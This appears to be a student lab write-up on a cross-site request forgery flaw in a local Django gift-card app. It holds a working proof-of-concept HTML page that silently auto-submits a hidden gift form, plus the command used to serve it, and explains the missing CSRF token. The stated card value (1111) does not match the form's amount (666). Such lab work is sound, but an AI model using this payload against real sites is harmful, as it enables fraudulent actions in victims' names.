  Successfully give attacker a giftcard
 
<img width="1115" alt="Screen Shot 2022-03-17 at 9 02 14 PM" src="https://user-images.githubusercontent.com/72175659/158918270-119af53d-4eb6-49f8-83d4-c868f6ba5aef.png">
static and dynamic analysis of the application were used to discover a potential vulnerability. There is blatant disregard for csrf in gifts.hmtl in the form input and settings.py MIDDLEWARE pre sets.

# POC
 we successfully demonstrate a POC attack that works by exploiting the HTML POST method to submit a form with hidden values. We simply dropped the CRSF-POC.html file in the target browser. CSRF-POC.html
 ```
 <html>
	<head>
		<title>POC attack</title>
	</head>
	<body>
		<h1>Pwn press F</h1>
		<form action="http://127.0.0.1:80/gift/0" method="post" target="hiddenframe" name="badform">
		
		        <input type="hidden" name="amount" value="666" /> 
			<input type="hidden" name="username" value="bryan" /> 
			
		 <script>document.badform.submit();</script>
		</form>
	</body>
</html>

 ```
 
 <img width="1102" alt="Screen Shot 2022-03-18 at 3 44 40 PM" src="https://user-images.githubusercontent.com/72175659/159073383-5d4694e6-de9a-451e-8617-d6c755331e56.png">
 
 <img width="1095" alt="Screen Shot 2022-03-20 at 3 25 29 PM" src="https://user-images.githubusercontent.com/72175659/159183641-eb7f6cce-84d3-4799-bd98-65bf0398a26b.png">

We store the POC exploit in an isolated directory rename it index.html and spin up a python server on port 8081 with

```
python3 -m http.server 8081
```
 We go on the targets web browser and go to 0.0.0.0:8081/index.html which will trigger our exploit. The instance of the exploit should gift the attacker a card worth 1111
 
 <img width="883" alt="Screen Shot 2022-03-20 at 3 35 51 PM" src="https://user-images.githubusercontent.com/72175659/159183774-5f578c5d-88b8-44b8-9120-34d6200b14e4.png">

As expected our exploit was successful.

This exploit works because there is not csrf token inside the form  field. What this token does is essentially give a random hidden input that only that instance of the website will have and recognize on submission. This prevents cross websites forgeries to a large extent as guessing that input would require  time, luck, or both. We made jbrg-csrf.py to check for "csrfmiddlewaretoken" in the gift.html templete . The server prints gift.html and since it doesn't have the mitigating control we output "CSRF Vulnerable".
<img width="1082" alt="Screen Shot 2022-03-18 at 4 21 54 PM" src="https://user-images.githubusercontent.com/72175659/159077999-e0a9b1c7-f30b-4add-a161-5a5d55fbaa5e.png">
